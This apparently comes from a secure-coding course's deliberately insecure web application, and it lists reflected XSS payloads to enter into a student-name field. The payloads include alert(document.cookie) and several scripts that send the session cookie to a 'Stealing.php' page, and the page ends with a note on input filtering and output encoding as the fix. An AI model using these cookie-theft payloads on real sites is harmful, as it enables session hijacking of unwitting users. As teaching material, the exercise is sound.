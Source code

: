 InsecureWebApplicationProject ->V 1.0.0

Insert new student

-------input these messages to the textbox (soyadı) ----------

    <script>alert(document.cookie);</script>

    //<script>alert('xy');</script>

    //<script>window.location="http://localhost/SecureSoftwareDevelopment/Lecture4/2XSS/3ReflectedXSS/Stealing.php?cookie="+document.cookie; </script>
    //<script> window.location.href="./Stealing.php?cookie=\'+document.cookie </script>
       //<script>window.location.href="./Stealing.php?cookie="+document.cookie; </script>
     
window.location.href = "./Stealing.php?cookie="+document.cookie;
apply filtering and output encoding in set member functions (code reuse)